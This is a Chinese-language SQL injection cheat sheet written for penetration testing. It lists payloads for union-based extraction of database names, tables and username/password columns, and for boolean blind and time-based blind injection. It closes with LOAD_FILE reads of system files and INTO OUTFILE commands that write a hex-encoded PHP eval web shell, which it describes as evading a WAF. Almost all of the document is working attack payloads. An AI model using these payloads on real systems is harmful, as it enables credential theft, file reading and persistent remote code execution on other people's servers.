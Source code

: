 ```yaml
---
# 这是页面的图标
icon: token
# 这是文章的标题
title: SQL注入
# 设置作者
author: lhz
# 设置写作时间
time: 2021-08-18
# 一个页面只能有一个分类
category: 渗透
# 一个页面可以有多个标签
tag:
  - 渗透
  - SQL注入
comment: false
---
```

## 一. 普通手动注入
 ### 1. 判断是否存在注入点
```sql
单引号， and 1=1 ，and 1=2 ，双引号，反斜杠，注释等
```
根据报错信息，返回内容判断是否存在sql注入
### 2. 判断是否存在注入点
逐步提高order by 1列号，出现错误时表示超过表的列数
```sql
order by 1 --
```
### 3. 判断字段的显示位
观察1，2，3的显示位置判断字段显示位
```sql
union select 1,2,3 --
```
### 4. 获取当前数据库信息
database(): 查看当前数据库名称
version(): 查看数据库版本信息
user(): 返回当前数据库连接使用的用户
可以使用group_concat()函数将多个字段连在一起当作一个字段中显示
```sql
union select 1,group_concat(database(),version()),3 --
```
### 5. 获取数据库中的表信息
ps：table_schema='数据库名'
```sql
union select 1,group_concat(char(32),table_name,char(32)),3 from information_schema.tables where table_schema='security' -- '
```
### 6.获取表中的列信息
```sql
union select 1,group_concat(char(32),column_name,char(32)),3 from information_schema.columns where table_name='users' -- '
```
### 7.获取数据
```sql
union select 1,group_concat(char(32),username,char(32),password),3 from users -- '
```

## 二. bool盲注
### 1.猜测长度
```sql
and length(database())>1 #
```
### 2.猜测库名
```sql
and ascii(substr(database(),1,1))>97 #
```
### 3.猜测表名
- 猜测表的数量
```sql
and (select count(table_name) from information_schema.tables where table_schema=database())=2#
```
- 猜测表的长度
```sql
and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=1 #
```
- 获取表名
```sql
and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>97 #
```

### 4. 猜测字段长度
```sql
and length(substr((select column_name from information_schema.columns where table_name= ’users’ limit 0,1),1))=1 #
```

### 5.猜测字段
```sql
and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))>120 #
```

## 三. 基于时间的盲注
### 1. 判断数据库长度
```sql
and if(length(database())=4,sleep(3),1) #
```
### 2. 猜测数据库名称
```sql
and if(ascii(substr(database(),1,1))>97,sleep(3),1)#
```
### 3. 猜测表的数量
```sql
and if((select count(table_name) from information_schema.tables where table_schema=database() )=1,sleep(5),1)#
```
### 4. 猜测表名的长度
```sql
and if((select count(table_name) from information_schema.tables where table_schema=database() )=1,sleep(5),1)#
```

### 5. 猜测字段
```sql
and if(ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))>120,sleep(5),1) #
```
## 四. 其他函数
- MID(ColumnName, Start, Length]) - 用于从文本字段中提取字符
```sql
SELECT MID(column_name,start,length]) FROM table_name
```
- LEFT(str,len) - 返回字符串str的最左面len个字符
- ASCII(str) - 返回字符串str的最左面字符的ASCII代码值。如果str是空字符串，返回0。如果str是NULL，返回NULL
```sql
ascii(substr((select table_name from information_schema.tables where table_schema =database()limit 0,1),1,1))=101 –+
```
- CAST() - 将目标str转化为目标数据类型
```sql
SELECT CAST(’12’ AS int)     
```
- IFNULL(expr1,expr2) - 如果expr1不是NULL，IFNULL()返回expr1，否则它返回expr2
- LOAD_FILE
说明：“char(99,58,47,98,111,111,116,46,105,110,105)”就是“c:/boot.ini”的 ASCII 代码
  ```sql
  -1 union select 1,1,1,load_file(char(99,58,47,98,111,111,116,46,105,110,105))
  ```
说明：“c:/boot.ini”的 16 进制是“0x633a2f626f6f742e696e69”
  ```sql
  -1 union select 1,1,1,load_file(0x633a2f626f6f742e696e69)
  ```
将其他路径包含一句话木马的文件导出成php来链接
  ```sql
  select load_file('c:\\wamp\\bin\\mysql\\mysql5.6.17\\my.ini') into outfile 'c:\\wamp\\www\\test.php'
  ```

## 五. 读文件/写shell
  - union方式  
    ```sql
    -1 union select 1,user(),3 into outfile "C:\\test.txt" --+
    ```
  - 16进制写shell <    ?   eval($_POST[x]);?>可以过waf
    ```sql
    -1 union select 0x3c,0x3f,0x6576616C28245F504F53545B785D293B3F3E into outfile "C:\\test.php" --+
    ```
  - 分隔符写shell
  ```sql
  select * from admin where id=1 into outfile 'F:\WWW\phpinfo.php' fields terminated by '<? phpinfo(); ?>'%23     #分隔符也可以用16进制表示
  ```
  - 读文件
  ```sql
  select load_file('c:/boot.ini')
  ```
